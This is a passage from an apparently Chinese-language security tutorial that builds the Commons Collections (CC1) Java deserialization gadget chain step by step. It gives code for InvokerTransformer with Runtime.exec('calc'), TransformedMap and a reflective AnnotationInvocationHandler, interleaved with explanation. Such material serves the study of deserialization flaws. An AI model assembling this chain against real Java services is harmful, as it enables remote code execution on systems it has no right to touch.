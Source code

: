 ```java
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Runtime r = Runtime.getRuntime();
        HashMap<Object, Object> map = new HashMap<>();
        map.put("q","q");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
        for (Map.Entry entry:transformedMap.entrySet()){
            entry.setValue(r);
        }
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-db9631b1ef987ca5e88db1279cab498fc280d0c4.png)​

那么我们后半条链子就连起来了，接下来就是去找哪个地方是存在`Entry`​的遍历的，并且可以把对象传入的点

### `AnnotationInvocationHandler`​​​

作者就找到了`jdk1.8.0_65\src\sun\reflect\annotation\AnnotationInvocationHandler.java`​ 中的 `readObject`​ 方法是调用了`setValue`​ ，那么其实已经找到`readObject`​就非常好可以进行串联了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0906d5473efdace05187cdc0e9118f330f73554c.png)​

那我们来看一下他的构造方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-827028a3b0d8eab8f3e9277636a0281c84ca3d3d.png)​

也很简单，就是传一个注解和一个Map类，又因为他不是public类，所以必须得用反射去实例化他，那么就其实挺简单，就反射区实例化他即可，然后把我们设计好的`Entry`​传给他即可

```java
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cl  =  c.getDeclaredConstructor(Class.class,Map.class);
        cl.setAccessible(true);
        cl.newInstance(Override.class,transformedMap);
```

但是这里仍然存在几个问题

- `Runtime`​对象是不可以序列化的，需要用反射进行序列化
- `setValue`​方法的参数貌似不可控
- 有两个if判断需要进去

‍

先解决第一个问题 如何让`Runtime`​对象可以序列化

‍

因为Class类是可以反序列化的，所以只要让`Runtime`​为Class类并且调用其方法即可

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5a3e876500dfbc08122d8874775fdccda22d6d08.png)​

他是存在`getRuntime`​的静态方法的，所以可以直接调用

```java
        //        Runtime.getRuntime().exec("calc");
        Class r =  Runtime.class;
        Method m = r.getMethod("getRuntime",null);
        Runtime o = (Runtime) m.invoke(null,null); // 注意这里是getRuntime()的无参构造
        Method m1 = r.getMethod("exec",String.class);
        m1.invoke(o,"calc");
```
